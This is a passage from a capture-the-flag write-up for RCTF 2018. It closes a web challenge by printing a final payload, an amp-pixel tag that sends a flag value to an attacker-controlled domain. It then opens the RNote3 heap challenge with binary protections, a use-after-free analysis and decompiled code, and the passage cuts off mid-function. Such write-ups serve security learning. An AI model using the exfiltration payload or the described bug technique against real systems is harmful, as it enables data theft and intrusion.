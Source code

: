 Our final payload was:
```
<amp-pixel src="https://controlled_domain.com/?CLIENT_ID(FLAG)" layout="nodisplay"></amp-pixel>
```

And the flag: `RCTF{El_PsY_CONGRO0_sg0}`

RNote3
---
[Attachment](https://drive.google.com/open?id=1yKlHMJG35GtjuwckrkYuMW7ps2bEYF5k)
### First checks:

RNote3: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=3ec425669dba0efe3033ff8bffdb0b4a9eb9ee4e, stripped
 '/home/marcof/ctfs/rctf2018/rnote/RNote3'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

### Reversing

We reversed all the binary with no particular problems. We started looking for some bugs in heap managment but everythink looked fine. We noticed sub_B98( ) (which i renominated custom_read(buff,size)) wasn't perfect,
in fact it would stop reading characters once a \n was reached but it would still add a \x00 at buff[size - 1]. Also we soon found a stack buffer overflow in sub_102D() (edit_note()). Still canary was preventing us to take control
over the $rip.

### The right vuln

After some time we finally found a usable vulnerability. In function delete_note() (sub_F2B(), refer to decompiled code below) stack variable "selected_note" is not initialized to 0 and its loaded at $rbp - 0x18, exactly as it is in
edit_note() function. This means that if i first call edit_note() on one of my allocated structures (note structure also provided below), lets say with title "aaa\n" and later call delete_note() looking for a structure with a non existing
 title ("\n")  I would end up freeing the "aaa\n" note without setting to 0 the respective global pointer saved in .bss segment. This its clearly a use after free vulnerability. 

```c
unsigned __int64 delete_note()
{
  signed int i; // [rsp+4h] [rbp-1Ch]
  note *selected_note; // [rsp+8h] [rbp-18h]
  char note_title; // [rsp+10h] [rbp-10h]
  unsigned __int64 canary; // [rsp+18h] [rbp-8h]

  canary = __readfsqword(0x28u);
  printf("please input note title: ");
  my_custom_read(&note_title, 8u);
  for ( i = 0; i <= 31; ++i )
  {
    if ( notes[i] && !strncmp(&note_title, notes[i]->title, 8uLL) )
    {
      selected_note = notes[i];
      break;
    }
  }
  if ( selected_note )
  {
    free(selected_note->content);
```